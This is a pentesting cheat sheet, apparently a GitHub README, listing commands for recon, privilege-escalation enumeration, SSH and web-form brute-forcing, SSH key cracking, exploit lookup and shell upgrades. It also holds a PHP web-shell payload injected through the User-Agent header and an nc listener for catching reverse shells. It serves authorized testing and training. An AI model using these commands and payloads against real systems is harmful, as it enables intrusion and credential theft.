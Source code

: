# Pentester's Cheat Sheet
Quick reference guide to all things pentest.



## Recon
### Nmap
Let's look for those open ports and export the output to a specified directory using `nmap`.
```
nmap -sV -sC -vv -oN ./scan [ip_address]
```
### Dirb
DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the responses. DIRB’s main purpose is to help in professional web application auditing. 
```
dirb http://[ip or domain name]/[optional directories] [path_to_wordlist]
```

### SMBMap
SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote commands. This tool was designed with pen testing in mind, and is intended to simplify searching for potentially sensitive data across large networks.
```
smbmap -H [ip_address]
```
If an error is returned, try the `-u` switch and declare a username.
```
smbmap -H [ip_address] -u test
```



## Enumeration
### LinPEAS
LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.
```
# 1. Copy over the LinPEAS script over OpenSSH using ~scp~ 
scp [LinPEAS_file_path] [user]@[ip_address]:[file_path] <-- Psst! /dev/shm is a great place

# 2. Change directory to ensure file transfer was successful and set file as executable 
chmod +x [file_name].sh

# 3. Now its time to let LinPEAS work its magic and find some escalation vectors. Run the following:
./linpeas.sh | tee linlog.txt

For more information, check out LinPEAS Github: https://github.com/carlospolop/PEASS-ng/
```



## Cracking
### Hydra
Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

#### Hydra ssh
```
hydra -l [username] -P [wordlist] [ip_address] ssh
```

#### Hydra http-post-form
```
hydra -l [username] -P [path_to_wordlist] [target_ip] http-post-form "/[directory]:[user_param]=^USER^&[password_param]=^PASS^:[error_message]"
```

### John
John the Ripper is a tool designed to help systems administrators to find weak (easy to guess or crack through brute force) passwords, and even automatically mail users warning them about it, if it is desired.

Run private SSH key against ssh2john to produce a new hash file. Next, crack the hash using specified wordlist. This should provid 
a password for password protected private keys. 
#### ssh2john
```
ssh2john [key_id_rsa] > forjohn.txt
john forjohn.txt --wordlist=[path to wordlist]
```



## Exploits
Exploit Database Archive Search After locating the exploit, copy it into the current directory.
```
searchsploit -m [exploit_file_path]
```



## Basic Linux Commands

- List directory, show hidden, and permissions files
```
ls -la
```

- Change Permissions for a file or directory:
```
chmod ### [file] or [directory]
```

- Another way of changing permissions over a directory is:
```
chown [user_name] [dir]
```

- Find files with SUID bit set:
```
find / -perm /4000
```
> Or (if using is in sudoers file).
```
sudo -l
```
- Open and listen on a port using `nc`. Now you're ready to execute that reverse shell.
```
nc -lvp [port_number]
```


## Random Tips & Tricks
### RSA Keys
RSA Keys only like to be read by authenticated users. Be sure to change permissions to:
```
chmod 600 [RSA_Key_file_name]
```

### User Agents
Somestimes PHP can be passed in through request headers, specifically the User-Agent. If successful we can pass in an ecoded web shell one-liner via the `c` parameter. 
```
curl [ip or domain name] -H "User-Agent:<?php system(\$_GET['c']); ?>"
```

### Interactive Shell
Maybe you need to switch users, maybe you prefer BASH - either way you need to spawn an interactive shell. Also, `echo $0` will inform you of which shell you're currently using. 
```
python -c "import pty;pty.spawn('/bin/bash')"
```
